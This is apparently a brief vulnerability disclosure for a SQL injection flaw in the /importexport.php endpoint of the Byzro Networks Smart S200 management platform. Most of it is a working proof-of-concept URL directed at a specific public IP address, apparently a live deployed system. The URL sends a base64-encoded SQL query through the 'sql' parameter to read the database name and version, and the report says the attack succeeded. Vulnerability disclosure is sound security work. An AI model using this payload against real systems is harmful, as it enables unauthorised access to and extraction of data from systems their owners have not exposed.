 Byzro Networks Smart S200 management platform has a front-end sql injection vulnerability.

version:Smart S200

Vulnerability location:/importexport.php

Vulnerability recurrence


1. The login interface is as shown in the figure.
Ip：https://113.140.35.86:8443/

![image](https://github.com/tldjgggg/cve/assets/143586988/af83db0f-e44f-4b1e-85ca-bf075759e2a5)


2、Construct POC and successfully obtain database name and version

https://113.140.35.86:8443/importexport.php?sql=c2VsZWN0IDEsZGF0YWJhc2UoKSx2ZXJzaW9uKCk=&type=exportexcelbysql

![image](https://github.com/tldjgggg/cve/assets/143586988/f312bd6e-cb56-4e30-9ecf-94d44343191f)
